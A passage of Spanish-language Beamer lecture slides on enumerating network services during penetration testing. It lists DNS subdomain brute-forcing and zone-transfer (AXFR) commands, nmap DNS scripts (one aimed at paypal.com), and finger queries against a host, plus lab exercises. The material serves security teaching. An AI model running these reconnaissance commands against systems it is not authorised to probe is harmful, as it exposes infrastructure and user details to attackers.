\begin{center}
\includegraphics[width=0.62\textwidth,height=0.42\textheight,keepaspectratio]{img/sl016_1.png}
\end{center}
\begin{center}
\includegraphics[width=0.62\textwidth,height=0.42\textheight,keepaspectratio]{img/sl016_2.png}
\end{center}
\end{frame}

\begin{frame}[allowframebreaks]{SMTP (Simple Mail Transfer Protocol)}
\begin{center}
\includegraphics[width=0.78\textwidth,height=0.6\textheight,keepaspectratio]{img/sl017_1.png}
\end{center}
\end{frame}

% ====================================================================
% 53/TCP-UDP --- DNS
% ====================================================================

\begin{frame}[allowframebreaks]{DNS (Domain Name System)}
\small
  \begin{itemize}
  \item Funcionalidad: Resolución de nombres de dominio.
  \item Puertos: 53/TCP, 53/UDP
  \item Vulnerabilidad: Si está mal configurado se podría acceder a todo la resolución de nombres (fichero zone) y, descubriendo por tanto, todos los dominios y sub-dominios, nombres de usuario, nombres de máquinas, servidores, así como sus direcciones IP
  \item Explotación:
    \begin{itemize}

  \item \href{https://github.com/fwaeytens/dnsenum}{dnsenum}
    \begin{itemize}
    \item \cmd{dnsenum metasploitable.local}
    \item \cmd{dnsenum -{}-enum -f subdomains.txt ejemplo.com}
    \item \cmd{dnsenum -{}-dnsserver <NS> dominio.com} (fuerza bruta + AXFR)
    \end{itemize}

  \item \href{https://man7.org/linux/man-pages/man1/nslookup.1.html}{nslookup}
    \begin{itemize}
    \item \cmd{nslookup ejemplo.com}
    \item \cmd{nslookup -type=MX ejemplo.com} (para obtener los servidores de correo)
    \item \cmd{nslookup -type=NS ejemplo.com} (servidores DNS autoritativos)
    \end{itemize}

  \item \href{https://man7.org/linux/man-pages/man1/dig.1.html}{dig}
    \begin{itemize}
    \item \cmd{dig version.bind CHAOS TXT @DNS}
    \item \cmd{dig MX ejemplo.com} (pregunta por los MX --- servidores de correo)
    \end{itemize}

  \item \href{https://nmap.org/}{nmap}
    \begin{itemize}
    \item \cmd{nmap -{}-script dns-nsid IP}
    \item \cmd{nmap dns-srv-enum IP}
    \item \cmd{nmap -sSU -p53 -{}-script dns-nsec-enum\\ -{}-script-args dns-nsec-enum.domains=paypal.com IP}
    \end{itemize}
    \end{itemize}
    
  \item Fuerza bruta de directorios: La fuerza bruta en DNS para enumeración de subdominios consiste en intentar resolver sistemáticamente una lista de posibles nombres delante de un dominio, para descubrir cuáles existen. Ejemplos:
    \begin{itemize}
      \item \href{https://github.com/darkoperator/dnsrecon}{dnsrecon}:
            \cmd{dnsrecon -D subdomains-1000.txt -d <DOMAIN> -n <IP\_DNS>}\\
      \item \href{https://github.com/rbsec/dnscan}{dnscan}:
            \cmd{dnscan -d <domain> -r -w subdomains-1000.txt}
      \item \href{https://github.com/projectdiscovery/subfinder}{subfinder}:
            \cmd{subfinder -d dominio.com -o subs.txt} 
      \item \href{https://github.com/owasp-amass/amass}{amass}:
            \cmd{amass enum -d dominio.com} 
      \item \href{https://github.com/mschwager/fierce}{fierce}:
            \cmd{fierce -{}-domain dominio.com} 

  \end{itemize}

\end{itemize}
\end{frame}

\begin{frame}[allowframebreaks]{DNS}
\small
Tipos de registros DNS clave para enumeración
  \begin{itemize}
  \item A / AAAA $\rightarrow$ IP del host (IPv4 / IPv6)
  \item MX $\rightarrow$ Servidores de correo (objetivo habitual de ataques)
  \item NS $\rightarrow$ Servidores de nombres autoritativos del dominio
  \item TXT $\rightarrow$ SPF, DKIM, DMARC --- revelan infraestructura de correo
  \item SOA $\rightarrow$ Servidor primario y datos de zona (serial, refresh)
  \item PTR $\rightarrow$ Resolución inversa IP $\rightarrow$ nombre
  \item CNAME $\rightarrow$ Alias que puede revelar servicios internos
  
  
  \end{itemize}
\end{frame}

\begin{frame}{DNS}
\centering

\includegraphics[width=0.47\textwidth,height=0.39\textheight,keepaspectratio]{img/sl042_1.png}\hfill

\includegraphics[width=0.47\textwidth,height=0.39\textheight,keepaspectratio]{img/sl042_2.jpg}\\[2mm]

\includegraphics[width=0.47\textwidth,height=0.39\textheight,keepaspectratio]{img/sl043_1.png}\hfill

\includegraphics[width=0.47\textwidth,height=0.39\textheight,keepaspectratio]{img/sl044_1.png}
\end{frame}

\begin{frame}[allowframebreaks]{DNS}
Transferencia de zona (AXFR) --- crítica si está habilitada
  \begin{itemize}
    \item A diferencia de los ataques de fuerza bruta / diccionado, la transferencia de zona (AXFR) intenta obtener directamente la información de una zona DNS si el servidor está configurado incorrectamente:
    \item Si un AXFR está permitido indebidamente, puede ser muchísimo más eficiente que la fuerza bruta porque puede revelar muchos registros de una sola vez (la fuerza bruta solo revela aquellos que estén en un hipotético diccionario, la transferencia de zonas, todos.)
  \item Explotación:
    \begin{itemize}

    \item \cmd{dig axfr @ns1.dominio.com dominio.com \# Lista TODOS los registros}
  \item \cmd{dnsrecon -d dominio.com -t axfr \# Automatizado}
  \end{itemize}
  \end{itemize}

\end{frame}

\begin{frame}[allowframebreaks]{DNS}
\begin{center}
\includegraphics[width=0.78\textwidth,height=0.6\textheight,keepaspectratio]{img/sl045_1.png}
\end{center}
\end{frame}

\begin{frame}[allowframebreaks]{Ejercicio}
\small
\begin{center}
\includegraphics[width=0.78\textwidth,height=0.6\textheight,keepaspectratio]{img/sl048_1.jpg}
\end{center}
  \begin{itemize}
  \item Realiza un ejercicio de transferencia de zona (AXFR) frente al dominio: \href{https://digi.ninja/projects/zonetransferme.php}{zonetransferme}
  \end{itemize}
\end{frame}

\begin{frame}[allowframebreaks]{DNS}
\small
  
\begin{center}
\includegraphics[width=0.78\textwidth,height=0.6\textheight,keepaspectratio]{img/sl048_1.jpg}
\end{center}
\begin{itemize}
  \item Resuelve la room \href{https://tryhackme.com/room/dnsindetail}{dnsindetail} de TryHackMe
  \end{itemize}
\end{frame}

% ====================================================================
% 79/TCP --- Finger
% ====================================================================

\begin{frame}[allowframebreaks]{Finger}
\small
  \begin{itemize}
  \item Funcionalidad: El servicio \href{https://man7.org/linux/man-pages/man1/finger.1.html}{Finger} es un servicio antiguo de Unix/Linux que permite consultar información sobre los usuarios de un sistema, especialmente sobre usuarios que están conectados o han utilizado recientemente el sistema.
  \item Puertos: normalmente utiliza TCP/79.
  \item Vulnerabilidad: Dependiendo de la configuración del servidor, una consulta puede devolver información como: nombre de usuario,nombre completo, terminal desde la que está conectado, hora de inicio de sesión, tiempo de inactividad, directorio home, shell utilizado, última actividad, información incluida en los ficheros .plan o .project.
  \item Explotación:
    \begin{itemize}
      \item \cmd{finger @ip}
      \item \cmd{finger user@ip}
      
    \end{itemize}
  
  \end{itemize}
\begin{center}
\includegraphics[width=0.78\textwidth,height=0.6\textheight,keepaspectratio]{img/sl062_1.png}
\end{center}
\end{frame}

% ====================================================================
% 80 y 443/TCP --- HTTP / HTTPS y CMS
% ====================================================================

\begin{frame}{HTTP (Hypertext Transfer Protocol)}
\begin{columns}[T]
\begin{column}{0.55\textwidth}
\small
  \begin{itemize}
  \item Funcionalidad: Navegación por aplicaciones web principalmente.
  \item Puertos: 80/TCP, 443/TCP, 8080/TCP, 8443/TCP,
  \item Vulnerabilidad: Fuga de información en cabeceras de respuesta.
  \item Explotación:
    \begin{itemize}
    \item Uso de proxy web como \href{https://portswigger.net/burp}{BurpSuite}
    \item Analizar los códigos de respuesta
    \end{itemize}
  \end{itemize}
\end{column}
\begin{column}{0.43\textwidth}
\centering
